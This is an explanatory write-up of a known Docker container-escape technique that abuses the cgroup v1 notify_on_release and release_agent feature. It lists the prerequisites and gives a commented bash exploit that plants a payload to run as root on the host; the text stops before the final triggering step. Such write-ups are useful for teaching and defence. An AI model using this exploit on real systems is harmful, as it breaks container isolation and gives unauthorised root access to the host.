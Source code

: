### Requirements to use this technique

In fact, `--privileged` provides far more permissions than needed to escape a Docker container via this method. In reality, the "only" requirements are:
- You must be running as root inside the container.
- The container must be run with the `CAP_SYS_ADMIN` Linux capability.
- The container must lack an AppArmor profile, or otherwise allow the mount syscall.
- The cgroup v1 virtual filesystem must be mounted read-write inside the container.

### Using cgroups to deliver the exploit

The PoC abuses the functionality of the `notify_on_release` feature in cgroups v1 to run the exploit as a fully privileged root user.

When the last task in a cgroup leaves (by exiting or attaching to another cgroup), a command supplied in the `release_agent` file is executed. The intended use for this is to help prune abandoned cgroups. This command, when invoked, is run as a fully privileged root on the host.

[What does notify_on_release do?](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)

If the `notify_on_release` flag is enabled in a cgroup, then whenever the last task in the cgroup leaves (exits or attaches to some other cgroup) and the last child cgroup of that cgroup is removed, then the kernel runs the command specified by the contents of the `release_agent` file in that hierarchy's root directory, supplying the pathname (relative to the mount point of the cgroup file system) of the abandoned cgroup. This enables automatic removal of abandoned cgroups. The default value of `notify_on_release` in the root cgroup at system boot is disabled. The default value of other cgroups at creation is the current value of their parents `notify_on_release` settings. The default value of a cgroup hierarchy's `release_agent` path is empty.

### Escape only with CAP_SYS_ADMIN capability

There is a simpler way to write this exploit so it works without the `--privileged` flag. In this scenario, you won't have access to a read-write cgroup mount provided by `--privileged`. For this you will just mount the cgroup as read-write ourselves. This adds one extra line to the exploit but requires fewer privileges.

An example of a command to run the container on the host:

```bash
$ docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```

The exploit below will execute a `ps aux` command on the host and save its output to the `/output` file in the container. It uses the same `release_agent` feature as the original PoC to execute on the host.

```bash
# Mounts the RDMA cgroup controller and create a child cgroup
# This technique should work with the majority of cgroup controllers
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the RDMA cgroup controller, try change rdma to memory to fix it
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release
# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent
# Creates a payload
echo "#!/bin/sh" > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
```